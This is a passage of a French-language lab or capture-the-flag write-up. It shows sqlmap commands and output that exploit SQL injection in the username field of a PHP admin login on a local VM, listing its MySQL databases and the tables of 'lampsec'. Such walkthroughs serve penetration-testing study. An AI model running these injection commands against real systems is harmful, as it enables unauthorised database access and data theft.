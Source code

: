 ```console
web application technology: PHP 5.3.3, Apache 2.2.15
back-end DBMS: MySQL >= 5.0.12
[23:02:11] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.56.103'
```

En moins de deux minutes, SQLMap a détecté qu'il s'agit d'une base de données MySQL et que le premier paramètre testé ```username``` est vulnérable aux injections SQL. Le deuxième paramètre ```password``` est sans doute également injectable, mais l'injection SQL ici ne se fera que sur le premier paramètre ```username```. Après plusieurs tentatives, SQLMap récupère le nom de chaque base de données trouvée avec ```--dbs```...

```console
root@blinils:~# sqlmap -u "https://192.168.56.103/admin/index.php" --dbms=MySQL --data="username=test&password=test" --dbs
--snip--
[23:02:48] [INFO] fetching database names
[23:02:48] [INFO] fetching number of databases
[23:02:48] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[23:02:48] [INFO] retrieved: 4
[23:02:48] [INFO] retrieved: information_schema
[23:02:52] [INFO] retrieved: lampsec
[23:02:54] [INFO] retrieved: mysql
[23:02:55] [INFO] retrieved: test
available databases [4]:
[*] information_schema
[*] lampsec
[*] mysql
[*] test
```

... mais également les tables ```--tables``` de la base de données lampsec ```-D lampsec```...

```console
root@blinils:~# sqlmap -u "https://192.168.56.103/admin/index.php" --dbms=MySQL --data="username=test&password=test" -D lampsec --tables
--snip--
[23:03:11] [INFO] fetching tables for database: 'lampsec'
[23:03:11] [INFO] fetching number of tables for database 'lampsec'
[23:03:11] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[23:03:11] [INFO] retrieved: 5
[23:03:11] [INFO] retrieved: category
[23:03:13] [INFO] retrieved: contact
[23:03:14] [INFO] retrieved: content
[23:03:15] [INFO] retrieved: customers
[23:03:17] [INFO] retrieved: user
Database: lampsec
[5 tables]
+-----------+
| user      |
| category  |
| contact   |
| content   |
| customers |
+-----------+
```
